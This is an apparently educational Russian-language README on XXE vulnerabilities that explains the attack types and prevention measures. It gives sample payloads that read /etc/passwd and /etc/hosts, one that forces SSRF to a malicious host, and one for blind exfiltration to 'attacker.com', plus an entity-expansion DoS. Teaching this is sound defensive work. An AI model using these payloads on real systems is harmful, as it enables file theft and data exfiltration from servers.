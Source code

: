 # 🛠️ Уязвимость XML External Entity (XXE)

## 📜 Обзор

**XML External Entity (XXE)** — это тип атаки, нацеленный на приложения, обрабатывающие входные данные в формате XML. Если приложение неправильно обрабатывает или допускает использование внешних сущностей, злоумышленники могут использовать это для:

- Доступа к конфиденциальной информации на сервере.
- Выполнения удалённого кода.
- Проведения атак типа "отказ в обслуживании" (DoS).
- Нарушения целостности и доступности системы.

---

## 🔍 Как это работает

1. **Определение внешних сущностей XML**
   XML позволяет использовать внешние сущности — специальные теги для включения внешних данных или ресурсов.

2. **Неправильная обработка**
   Если приложение не валидирует или не фильтрует входные данные XML, возможно выполнение вредоносных внешних сущностей.

3. **Эксплуатация**
   Злоумышленники могут использовать XXE для кражи данных, взаимодействия с локальными файлами или выполнения удалённых HTTP-запросов через внедрение вредоносных сущностей.

---

## ⚙️ Виды атак XXE

1. **Раскрытие файлов**
   Доступ к конфиденциальным файлам на сервере, таким как конфигурационные файлы или закрытые ключи.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

2. **Server-Side Request Forgery (SSRF)**
   Принуждение сервера выполнять HTTP-запросы на произвольные адреса.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "http://malicious-site.com/malware">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

3. **Отказ в обслуживании (DoS)**
   Использование больших или рекурсивных полезных нагрузок для перегрузки парсера и вывода сервера из строя.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY a "b">
     <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
   ]>
   <root>
     <data>&b;</data>
   </root>
   ```

4. **Слепая XXE**
   Сценарии, когда злоумышленник не может напрямую увидеть ответ, но может отправить внешние запросы для наблюдения за поведением.

   **Пример полезной нагрузки:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "http://attacker.com/log?data=exfiltrated">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

---

## ⚠️ Пример сценария

Например, предположим, что приложение для совершения покупок проверяет уровень запасов товара, отправляя на сервер следующий XML-код:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Представьте приложение, принимающее XML для настройки параметров пользователя:

- Злоумышленник отправляет XML с внешней сущностью.
- Сервер обрабатывает сущность и выдаёт конфиденциальные данные.

**Пример полезной нагрузки:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/hosts">
]>
<foo>&xxe;</foo>
```

Злоумышленник получает содержимое файла `/etc/hosts`.

---

## 🛡️ Стратегии предотвращения

1. **Отключение обработки внешних сущностей**
   Настройте XML-парсер для отключения обработки внешних сущностей. Например, в Java:
   ```java
   DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
   dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   ```

2. **Используйте безопасные библиотеки**
   Используйте библиотеки, которые обрабатывают XML безопасно, например, `defusedxml` в Python.

3. **Валидация входных данных**
   Валидируйте и фильтруйте все входные данные XML перед обработкой.

4. **Настройка прав доступа**
   Ограничьте доступ к конфиденциальным файлам и ресурсам, которые могут быть использованы.

5. **Мониторинг и логирование**
   Обнаруживайте подозрительную активность, отслеживая необычные паттерны доступа к файлам или сети.

---

## 📚 Заключение

Уязвимости XXE представляют серьёзную угрозу для приложений, обрабатывающих XML. Понимая, как работают эти атаки, и внедряя надёжные меры безопасности, вы можете защитить свои приложения и их пользователей.

Для получения дополнительной информации об уязвимостях XXE посетите [OWASP XXE Prevention Cheatsheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

---

> **Помните:** Безопасность — это постоянный процесс. Будьте внимательны и обновляйте свои практики для защиты от новых угроз!
